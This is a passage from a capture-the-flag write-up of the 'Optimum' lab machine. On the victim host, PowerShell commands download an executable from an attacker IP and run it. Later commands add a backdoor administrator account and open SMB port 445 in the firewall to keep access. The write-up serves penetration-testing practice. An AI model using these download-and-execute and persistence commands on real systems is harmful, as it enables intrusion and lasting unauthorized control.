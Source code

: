 > **Victime Machine**:

```cmd
start /b powershell certutil.exe -hashfile bfill.exe MD5
.\bfill.exe
# :)

start /b powershell IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.84/bfill.exe','C:\Users\kostas\Desktop\bfill.exe')
start /b powershell Invoke-WebRequest "http://10.10.14.84/bfill.exe" -OutFile "C:\Users\kostas\Desktop\bfill.exe"
```

<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have successfully **Engaged** the machine I am going to take the opportunity to remember some methods to create **Persistence** in a **Windows** environment. The first one that I always use is simple to do, once I am already with the account of maximum privileges is to configure a **new account** and **add it to the Administrators group**. As this machine does not have the **SMB** service enabled on port **445**, with `netsh` I can do it, this way I confirm with `crackmapexec` that the account is already enabled and with `impacket-psexec` I try to access but first I need to make some permission settings and changes in the **Windows Registry**. Now I can access with `impacket-psexec` or even with `nc.exe`.

> **Victime Machine**:

```cmd
net user
net user oldboy4life oldboy4l123$ /add
net user

net localgroup Administrators oldboy4life /add
net localgroup Administrators

netstat -nat
# TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost       Locally!

netsh advfirewall firewall add rule name="SMB port open" protocol=TCP dir=in localport=445 action=allow
netsh advfirewall firewall add rule name="SMB port open" protocol=TCP dir=out localport=445 action=allow
```
